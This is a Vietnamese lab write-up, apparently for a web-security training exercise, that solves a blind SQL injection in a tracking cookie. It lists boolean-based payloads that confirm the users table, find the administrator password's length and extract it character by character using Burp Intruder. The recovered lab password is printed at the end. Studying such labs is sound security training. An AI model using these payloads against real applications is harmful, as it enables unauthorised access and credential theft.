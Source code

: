 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng Blind SQL injection trong cookie theo dõi.
- Ứng dụng thực hiện truy vấn SQL chứa giá trị cookie.
- Kết quả truy vấn SQL không được trả về và không có thông báo lỗi.
- Ứng dụng hiển thị thông báo "Welcome back" nếu truy vấn trả về bất kỳ hàng nào.
- Cơ sở dữ liệu chứa bảng users với các cột username và password.

# Yêu cầu:
- Khai thác lỗ hổng Blind SQL injection để tìm mật khẩu của người dùng administrator.
- Đăng nhập với tư cách người dùng administrator.

![image](https://github.com/user-attachments/assets/ad9f2c79-4022-478e-923d-6a28b0234952)

# Solution:

- Dùng Burp, kiểm tra trong header giá trị TrackId, chuyển qua Repeater để sửa TrackId đó
- Vì giá trị trong TrackId là luôn đúng rồi nên khi thêm điều kiện để thử thì có thể kết nối bằng AND

- ' AND '1'='1
Có chữ welcome back

- ' AND '1'='2
Mất chữ welcome back

- ' AND (SELECT 'a' FROM users LIMIT 1)='a
    + Câu này dùng để ktra xem có bảng `users` và có ít nhất 1 hàng hay không, nếu có thì trả về 'a' và khi 'a'='a' thì kết quả cũng là True. Hiện WCBack
    + Nếu không có bảng `users` thì không xuất hiện WCBack
    + Nếu có bảng users nhma ko có hàng nào thì nó sẽ trả về NULL và kết quả là False.
    + LIMIT 1: dùng để chỉ lấy duy nhất 1 hàng, khi không có, nếu bảng `users` có nhiều hàng thì nó sẽ trả về nhiều giá trị 'a', và để so với đơn trị 'a' thì sẽ sai.

- ' AND (SELECT 'a' FROM users WHERE username = 'administrator')='a

- ' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 10)='a
- ' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) = 20)='a

- ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
/*
    SUBSTRING(string, start, length)
    SUBSTRING('abcdefg', 3, 2) sẽ trả về 'cd'. (Bắt đầu từ vị trí thứ 3, lấy 2 ký tự).
    SUBSTRING('Hello world', 7, 5) sẽ trả về 'world'.
*/

- Rồi đưa nó vào Intruder để test từng chữ một
- Được pass: ppylw9n6f9kzxs5m4oo5
